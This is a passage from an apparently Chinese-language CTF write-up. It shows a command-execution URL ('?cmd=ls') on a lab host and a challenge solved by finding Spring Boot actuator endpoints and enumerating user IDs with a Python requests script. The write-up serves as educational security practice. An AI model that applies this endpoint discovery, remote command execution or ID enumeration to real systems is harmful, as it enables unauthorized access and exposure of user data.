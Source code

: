 然后访问执行命令，获取目录内容，进而得到flag

```text
http://10.167.32.15:9080/hello/sumy.html?cmd=ls
```

### web-32 Actuator 404

这个题知道是找actuator的端点，直接访问是返回404。猜测缺少一个路径前缀。扫了所有3位字符的组合路径/aaa/actuator/env没发现有内容。。。

==================卡了很久的分割线=================

放出了hint：/xiaomi/management/

拼接路径/xiaomi/management/actuator/env找到了端点。然后就是各种翻找，在/xiaomi/management/actuator/httptrace发现了一个奇怪的地址。/xiaomi/ctf/api/v1/userInfo?id=1

遍历id，在第999个ID发现了flag。

```python
import requests

def requestUserInfo(id):
    url = "http://10.167.96.4:8080/xiaomi/ctf/api/v1/userInfo?id={}".format(id)

    payload = {}
    headers = {
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
        'Cache-Control': 'no-cache',
        'Connection': 'keep-alive',
        'Pragma': 'no-cache',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36'
    }

    response = requests.request("GET", url, headers=headers, data=payload)

    print(id)
    print(response.json())

for i in range(600, 1000):
    requestUserInfo(i)
```

![result](./web-32-1.png)
